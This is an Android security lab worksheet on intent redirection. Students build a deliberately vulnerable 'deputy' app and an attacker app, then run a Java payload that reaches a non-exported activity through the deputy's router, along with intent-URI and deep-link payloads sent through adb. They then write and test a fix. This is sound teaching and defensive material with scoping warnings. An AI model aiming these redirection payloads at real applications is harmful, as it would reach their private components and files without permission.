

# Lab 01 — Intent redirection: build the deputy, build the exploit, write the fix

**Difficulty:** Intermediate → Advanced
**Time:** 2–4 hours
**Prerequisites:** [Chapter 26 §3.2, §3.8, §4.3, §5.2](../README.md),
[21-App-Sandbox](../../21-App-Sandbox/README.md) (the UID boundary),
[23-Permissions](../../23-Permissions/README.md) (`protectionLevel`)
**Ships with:** [`../examples/deputy-app/`](../examples/deputy-app/),
[`../examples/attacker-app/`](../examples/attacker-app/),
[`../examples/RedirectorActivity.java`](../examples/RedirectorActivity.java),
[`../examples/RedirectorActivityFixed.java`](../examples/RedirectorActivityFixed.java)

---

## Objective

Prove, with two applications you build yourself, that **an unprivileged app with no
permissions can reach a non-exported component of another app** by handing that app
an `Intent` and letting it do the starting. Then prove your harness works by showing
the *denial* you expected. Then write the fix and prove it blocks the same payload.

Four artefacts come out of this lab, and a finding that lacks any one of them will
be argued down by a competent developer:

| # | Artefact | What it proves |
|---|---|---|
| 1 | The **negative control**: a `Permission Denial` in logcat when the attacker targets the non-exported component directly | The component really is non-exported, and your harness would have noticed a failure |
| 2 | The **exploit**: the same component reached through the deputy | The bypass |
| 3 | The **UID evidence**: both apps' UIDs, and the `not exported from uid N` line naming them | That the boundary crossed is a real one |
| 4 | The **fix control**: the identical payload refused by the fixed router | That your remediation is tested, not asserted |

> **Warning — scope**
> Both apps in this lab are shipped by this repository, are installed on a device
> you own, and attack only each other. Do not point the attacker app at somebody
> else's application. The exploit is fifteen lines and the fact that it is easy is
> not a defence anywhere.

---

## Background: why this is a privilege escalation and not a routing bug

`ActivityStarter` inside `system_server` decides whether a start is allowed. Its
export check reduces to one comparison, and it is a **UID** comparison:

```java
// frameworks/base/services/core/java/com/android/server/wm/ActivityStarter.java
// (shape of the check)
if (!aInfo.exported && callingUid != aInfo.applicationInfo.uid) {
    throw new SecurityException("Permission Denial: starting Intent { ... } "
        + "from ... not exported from uid " + aInfo.applicationInfo.uid);
}
```

`callingUid` is `Binder.getCallingUid()` — the value the kernel's binder driver
stamped into the receiving thread when the transaction arrived. It cannot be
forged.

Now follow two starts:



Nothing in the platform failed. The deputy volunteered its identity.

### The two flavours, and why the difference decides severity

| | **Flavour A** — `Parcelable` extra | **Flavour B** — string / URI |
|---|---|---|
| The code | `getIntent().getParcelableExtra("next")` then `startActivity` | `Intent.parseUri(someString)` then `startActivity` |
| Attacker needs | An installed application | Only a link, if the entry filter is `BROWSABLE` |
| Triggerable from `adb shell am` | **No** | **Yes** |
| Triggerable from a web page | **No** | **Yes** |
| Typical severity | High | **Critical** |

Flavour A cannot be triggered from the shell, and this is not an opinion — it is
readable in the device's own `am` help. `am` supports string, boolean, int, long,
float, URI, `ComponentName` and array extras. There is no `Parcelable` extra type,
and `Intent.parseUri` has no syntax for nesting an `Intent` either. That is why
this lab ships an attacker APK: for flavour A there is no shortcut.

You will demonstrate both.

---

## Setup

### What you need

| Thing | Why | Check |
|---|---|---|
| Android SDK build-tools + one platform `android.jar` | `aapt2`, `javac`, `d8`, `zipalign`, `apksigner` | `ls $SDK_ROOT/build-tools` |
| A JDK (11+) | `javac`, `keytool` | `javac -version` |
| `python3` | one zip-append step in the build | `python3 -V` |
| A device or emulator that **allows `adb install`** | see the warning below | `adb install` anything |
| `adb` | everything | `adb devices` |

### Build both apps

```bash
# host
cd 26-Intent/examples/deputy-app
./build.sh
```

Expected tail:

```text
[+] .../out/deputy.apk
[+] .../out/attacker.apk
```

> **Some devices refuse `adb install`, and this was measured**
> On the Redmi / MIUI 12.5 / Android 11 device used to write this chapter:
>
> ```text
> $ adb install -r out/deputy.apk
> Failure [INSTALL_FAILED_USER_RESTRICTED: Install canceled by user]
> ```
>
> MIUI gates USB installation behind a developer-options toggle tied to a Xiaomi
> account. `adb push` + `adb shell pm install` fails identically. If that is your
> device, use an emulator — `emulator -avd <name>` from the SDK — and the rest of
> this lab runs unchanged. **The chapter is honest about this: the two-app exploit
> below was not executed on that device. Everything else in the chapter was
> measured on it.**

```bash
# host
adb install -r out/deputy.apk
adb install -r out/attacker.apk
```

### Record the UIDs — artefact 3

```bash
# host
adb shell "dumpsys package com.pentest.deputy   | grep -m1 userId"
adb shell "dumpsys package com.pentest.attacker | grep -m1 userId"
```

**Q1.** Write both UIDs down. They must differ. If they are the same, something is
sharing a UID and the whole exercise is meaningless — check for `sharedUserId` in
both manifests.

### Start logging

```bash
# host — terminal 1, leave it running
adb logcat -c
adb logcat -s ATTACKER:I DEPUTY:* AndroidRuntime:E ActivityTaskManager:E ActivityManager:E
```

---

## Step 1 — Map the surface before you touch it

Do this before the exploit, so you can show you found the target rather than being
told about it.

```bash
# host
python3 ../scripts/intent-surface-map.py --package com.pentest.deputy --components --verify
```

**Q2.** Which components are exported? Which are not?
`SecretActivity`, `DetailActivity` and `SettingsActivity` do **not** appear in the
resolver-table output at all — they have no `<intent-filter>`, so they are not in
any resolver bucket.

That is worth understanding properly: **a component with no filter is invisible in
the resolver tables and still perfectly reachable by an explicit start, if it is
exported.** The resolver tables are about *matching*, not about *reachability*. To
enumerate everything, read the manifest as well:

```bash
# host
adb shell "dumpsys package com.pentest.deputy" | sed -n '/Activity Resolver Table/,/^$/p'
aapt2 dump xmltree --file AndroidManifest.xml out/deputy.apk | grep -A3 'E: activity'
```

**Q3.** Cross-reference the two. How many activities does the app declare, and how
many appear in the resolver tables? Explain the difference in one sentence.

### Confirm the deputy's routers really are reachable implicitly

```bash
# host
adb shell "cmd package query-activities -a com.pentest.deputy.ROUTE"
adb shell "cmd package query-activities -a com.pentest.deputy.ROUTE_SAFE"
```

**Q4.** What `match` value does each report, and what does it decode to? (Hint:
neither filter declares any `<data>`, so §3.6's table has one obvious answer.)

---

## Step 2 — The negative control (artefact 1)

Run the attacker app:

```bash
# host — terminal 2
adb shell "am start -n com.pentest.attacker/.ExploitActivity"
```

Press the button. Step `[1]` in the on-screen log is the negative control: the
attacker starts `com.pentest.deputy/.SecretActivity` **directly**.

**Q5.** What did the app print? What appeared in logcat?

You are looking for something of this shape:

```text
Permission Denial: starting Intent { flg=0x10000000 cmp=com.pentest.deputy/.SecretActivity }
    from ProcessRecord{... 10234:com.pentest.attacker/u0a234} (pid=..., uid=10234)
    not exported from uid 10087
```

**Capture this. It is artefact 1 and artefact 3 in one line** — it names both UIDs
and states the reason. A finding submitted without it invites the reply "your test
app probably was not running as an ordinary UID", and you will have no answer.

**Q6.** Try the same thing from the shell:

```bash
# host
adb shell "am start -n com.pentest.deputy/.SecretActivity"
```

Does it behave the same way? Explain the difference in terms of who `adb shell`
is. **This is the single most important question in the lab.**

---

## Step 3 — The exploit, flavour A (artefact 2)

Step `[2]` in the attacker app builds:

```java
Intent inner = new Intent();
inner.setComponent(new ComponentName("com.pentest.deputy",
                                     "com.pentest.deputy.SecretActivity"));
inner.putExtra("why", "reached a non-exported component via the deputy");
inner.setData(Uri.parse("content://com.pentest.deputy.files/private/1"));
inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
             | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
             | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
             | Intent.FLAG_ACTIVITY_FORWARD_RESULT);

Intent outer = new Intent();
outer.setComponent(new ComponentName("com.pentest.deputy",
                                     "com.pentest.deputy.RedirectorActivity"));
outer.setAction("com.pentest.deputy.ROUTE");
outer.putExtra("next", inner);
outer.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
startActivity(outer);
```

**Q7.** Did `SecretActivity` appear on screen? Did the flag string
`FLAG{non_exported_reached_via_deputy}` appear in logcat under tag `DEPUTY`?

**Q8.** Screenshot the `SecretActivity` screen. Note the line
`getCallingActivity() = ...` on it. What does it say, and why? (Think about *who*
started `SecretActivity`, and with which API.)

**Q9.** The payload carries four extra flags that were not needed to reach
`SecretActivity`. Name each one and say precisely what it would have bought the
attacker if the deputy had been a different kind of app. One of them is the reason
[27-ContentProviders §5.4](../../27-ContentProviders/README.md) exists; one of them
re-points a result channel.

### Now watch it happen

Re-run the exploit with the chapter's Frida monitor attached to the **deputy**:

```bash
# host — terminal 3
frida -U -f com.pentest.deputy -l ../scripts/intent-monitor.js
```

Then press the button again.

**Q10.** The monitor prints a `[taint]` line and then a `[!!] REDIRECTION` block.
Quote both. What did the `flags` line decode to, and which of them were the grant
flags?

**Q11.** The monitor also prints the deputy's own outbound Intents. Is the inner
Intent, as sent by the deputy, byte-for-byte what the attacker built? What does
that tell you about how much validation happened?

---

## Step 4 — The exploit, flavour B (the web-reachable one)

Flavour A needed an app. Flavour B needs only text, and the deputy declares a
`BROWSABLE` filter, so a web page can reach it.

```bash
# host — build an intent: URI and hand it over as a string extra.
# NOTE THE INNER QUOTES. adb shell passes the whole line to the DEVICE's sh, and
# ';' is a separator there. Without them the command silently truncates and the
# error looks like a resolution failure rather than a quoting failure.
adb shell "am start -n com.pentest.deputy/.RedirectorActivity \
  --es next_uri 'intent:#Intent;component=com.pentest.deputy/.SecretActivity;S.why=via_parseUri;end'"
```

**Q12.** Did `SecretActivity` appear? Which flavour did you just demonstrate?

Now try it as a deep link, exactly as a browser would send it:

```bash
# host
adb shell "am start -a android.intent.action.VIEW \
  -c android.intent.category.BROWSABLE \
  -d 'deputy://route?to=intent%3A%23Intent%3Bcomponent%3Dcom.pentest.deputy/.SecretActivity%3Bend'"
```

**Q13.** Did that work? If not, why not — is the failure in the *filter matching*,
in the *URI decoding*, or in the deputy's code? Use
`adb shell "cmd package query-activities -a android.intent.action.VIEW -d 'deputy://route'"`
to separate the first from the other two.

**Q14.** Now remove the quoting and run it again:

```bash
# host — deliberately WRONG
adb shell am start -n com.pentest.deputy/.RedirectorActivity --es next_uri intent:#Intent;component=com.pentest.deputy/.SecretActivity;end
```

What happened, and what did the error message make you think had happened? Write
down the difference between the real cause and the apparent cause. You will meet
this again.

---

## Step 5 — The cross product, in passing

The deputy's `BROWSABLE` filter declares two `<data>` elements:

```xml
<data android:scheme="deputy" android:host="route" />
<data android:scheme="http"   android:host="open" />
```

**Q15.** The developer meant two URIs. How many does the platform accept? Predict
the list, then measure it:

```bash
# host
for u in "deputy://route" "http://open" "deputy://open" "http://route"; do
  printf '%-20s ' "$u"
  adb shell "cmd package query-activities -a android.intent.action.VIEW \
    -c android.intent.category.BROWSABLE -d '$u'" | head -1
done
```

**Q16.** Explain the result in terms of what an `IntentFilter` actually stores.
Then confirm it from the platform's own data structure:

```bash
# host
adb shell "dumpsys package com.pentest.deputy" | grep -A10 'RedirectorActivity'
```

Lab 02 goes much further into this; the point here is that you found it while
doing something else, which is how it usually turns up.

---

## Step 6 — The fix, and the control for the fix (artefact 4)

Read [`../examples/RedirectorActivityFixed.java`](../examples/RedirectorActivityFixed.java)
before running anything.

Step `[3]` in the attacker app sends the **identical payload** to
`.RedirectorActivityFixed`.

**Q17.** What appeared in logcat under tag `DEPUTY`? Quote the refusal line.

**Q18.** Which of the five checks in the fixed router caught this payload? Work it
out from the message, then confirm by reading the code.

Now attack the fix. For each of the following, predict whether it gets through,
then edit `ExploitActivity.java`, rebuild, and find out:

| Variant | Change to the inner Intent |
|---|---|
| **a** | Target `com.pentest.deputy.DetailActivity` — an allow-listed class |
| **b** | Target `DetailActivity` **and** attach `FLAG_GRANT_READ_URI_PERMISSION` and a `content://` data URI |
| **c** | Target `DetailActivity` and attach `FLAG_ACTIVITY_FORWARD_RESULT` |
| **d** | Leave the component **null** and set only an action the deputy handles |
| **e** | Set `inner.setPackage("com.pentest.deputy")` but leave the component null |
| **f** | Target a class in **another** app (`com.android.settings/.Settings`) |

**Q19.** For each of a–f: did it reach anything, and if so what? For (b) and (c),
what does the deputy's outbound Intent look like in `intent-monitor.js` — are the
flags still there?

**Q20.** Variant (d) is the interesting one. `resolveActivity` is called on an
Intent with no component. What does it return, and why does that make the fix
*more* reliable rather than less? Compare with the half-fix
`if (next.getComponent().getPackageName().equals(getPackageName()))`, which is what
most developers write first — what happens to *that* code on variant (d)?

---

## Step 7 — Now do it without being told where to look

Uninstall your knowledge of the deputy and re-find the bug from the APK alone.

```bash
# host
apktool d -f out/deputy.apk -o work/
jadx -d src/ out/deputy.apk

# the obfuscation-proof signature (README section 6.2)
grep -rn -A3 'getParcelableExtra(Ljava/lang/String;)Landroid/os/Parcelable;' work/smali* \
  | grep -B1 'check-cast .*Landroid/content/Intent;'

# the same thing, mechanically
python3 ../scripts/intent-surface-map.py --redirect work/
```

**Q21.** How many candidate sites did the grep find? How many did the script find?
Did either find the *fixed* router as well as the vulnerable one — and should it?

**Q22.** Look at the smali by hand. `getParcelableExtra` is declared to return
`Landroid/os/Parcelable;`, so a `check-cast` to `Landroid/content/Intent;` must
follow. Why does that make this pattern survive R8 obfuscation when your own class
names do not?

**Q23.** Now run [32-Manifest](../../32-Manifest/README.md)'s manifest auditor on
the same APK:

```bash
# host
aapt2 dump xmltree --file AndroidManifest.xml out/deputy.apk > tree.txt
python3 ../../32-Manifest/scripts/manifest-audit.py --format xmltree tree.txt
```

**Q24.** What did it tell you that this chapter's tools did not, and what did this
chapter's tools tell you that it did not? Write two sentences. The answer is the
whole reason the two chapters exist separately.

---

## Step 8 — Write the finding

Write it as you would submit it. Use this skeleton and fill every row; a missing
row is where the developer's reply will land.

```markdown
### Intent redirection in com.pentest.deputy/.RedirectorActivity

**Severity:** High
**Component:** com.pentest.deputy/.RedirectorActivity (exported, no permission)
**Reachable by:** any installed application, with no permissions
            (proven with the attached PoC APK, running as uid <N>)
**Not merely reachable from adb shell:** correct — see the negative control below

**Description**
...

**Reproduction**
1. install deputy.apk and attacker.apk
2. `adb shell "am start -n com.pentest.attacker/.ExploitActivity"`, press the button
3. observe ...

**Evidence**
- negative control (direct start refused): <logcat line, quoting both uids>
- exploit (component reached): <logcat line + screenshot>
- deputy's outbound Intent, unvalidated: <intent-monitor.js output>

**Impact**
...  (what does SecretActivity DO? in a real app this sentence is the finding)

**Remediation**
<the code from RedirectorActivityFixed.java>

**Remediation verified**
identical payload refused: <logcat line>
```

**Q25.** Your severity says High. Argue it. What would make it Critical, and what
would make it Informational? Give a concrete change to the deputy app for each.

---

## Success criteria

- [ ] Both APKs built from source with `build.sh` (no Gradle, no pre-built APK)
- [ ] Both UIDs recorded, and shown to differ
- [ ] **Negative control captured**: `Permission Denial ... not exported from uid N`
- [ ] Exploit executed from an **unprivileged app**, not from `adb shell`, and the
      flag string captured from logcat
- [ ] The difference between the app's result and `adb shell`'s result explained
- [ ] Flavour B demonstrated separately, and the reason flavour A cannot be done
      from `am` stated correctly
- [ ] The `adb shell` quoting failure reproduced deliberately once, and the
      difference between its real cause and its apparent cause written down
- [ ] The `<data>` cross product predicted and then measured
- [ ] The fixed router refused the identical payload, with the refusal captured
- [ ] All six fix-attack variants (a–f) run, with predictions recorded **before**
      running them
- [ ] The bug re-found from the APK alone, by smali signature and by script
- [ ] `manifest-audit.py` run, and the division of labour between the two chapters
      stated in two sentences
- [ ] A finding written with all four artefacts attached
- [ ] `./build.sh --clean` run, and no `.apk`, `.dex`, `.class` or keystore left in
      the repository

---

## Debrief

Answer these in prose. They are the questions an interviewer will ask about this
lab, and several of them have no clean answer — say so where that is the case.

1. State, in one sentence each, what the negative control proves and what the
   exploit proves. Then state what neither of them proves.

2. `adb shell` reached the non-exported component too, in Q6 — or did it? Explain
   exactly what `adb shell`'s privilege position is, and why a finding that rests
   on it is worthless.

3. The deputy did nothing wrong from the platform's point of view: it started an
   Intent, as itself, at a component it owns. Where, precisely, is the security
   boundary that was crossed, and who was responsible for defending it?

4. Rank the six variants a–f by how much they worried you. Which one would you
   have written first as an attacker, and why?

5. The fixed router calls `next.resolveActivity(getPackageManager())` before
   looking at the component. Name two concrete payloads that defeat the naive
   `next.getComponent().getPackageName()` check and are stopped by `resolveActivity`.

6. `FLAG_ACTIVITY_FORWARD_RESULT` was in the payload and cost nothing. Describe a
   deputy app for which it would have been the entire attack.

7. You find this exact pattern in a third-party SDK that is present in 40 of your
   client's apps. What do you report, to whom, and how do you scope the finding?
   (Consider: the SDK vendor, the app teams, and the fact that the app teams did
   not write the code and cannot patch it.)

8. The platform closed part of this class at `targetSdk` 34 by refusing to deliver
   implicit Intents to non-exported components. Does that fix the bug you exploited
   here? Read your payload again before answering.

9. A developer proposes fixing this by adding
   `android:permission="com.pentest.deputy.permission.ROUTE"` with
   `protectionLevel="normal"` to the router. Evaluate the proposal.

10. Write the one-paragraph explanation you would give a developer who says "but
    the caller has to know my class name, so it is security through obscurity at
    worst". Include where the class name is written down.

---

## Cleanup

```bash
# host
adb uninstall com.pentest.attacker
adb uninstall com.pentest.deputy
cd 26-Intent/examples/deputy-app && ./build.sh --clean
```

**Do not leave the deputy app installed.** It is an intentionally vulnerable app
with an exported router, and it will be found by the next person who runs an
Intent-surface scan on that device — including, possibly, you, six months from now,
during a real engagement.
